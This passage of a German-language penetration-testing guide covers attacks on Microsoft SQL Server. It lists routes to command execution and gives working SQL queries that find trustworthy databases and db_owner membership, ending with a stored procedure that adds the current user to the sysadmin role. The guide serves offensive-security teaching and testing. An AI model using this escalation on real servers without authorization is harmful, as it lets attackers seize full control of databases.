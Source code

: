 ```csharp

public override void Start(IServicesFactory services)
{

}

public override void Stop()
{

}


public void Test()
{

}
}
}
```
### Andere Möglichkeiten für RCE

Es gibt andere Methoden, um die Ausführung von Befehlen zu erhalten, wie das Hinzufügen von [erweiterten gespeicherten Prozeduren](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR-Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server-Agent-Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15) und [externen Skripten](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql).

## MSSQL Privilegieneskalation

### Von db\_owner zu sysadmin

Wenn ein **normaler Benutzer** die Rolle **`db_owner`** über die **Datenbank, die einem Admin**-Benutzer (wie **`sa`**) gehört, erhält und diese Datenbank als **`trustworthy`** konfiguriert ist, kann dieser Benutzer diese Berechtigungen missbrauchen, um **privesc** zu erreichen, da **gespeicherte Prozeduren**, die dort erstellt wurden, als der Eigentümer (**Admin**) **ausgeführt** werden können.
```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

# If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'
```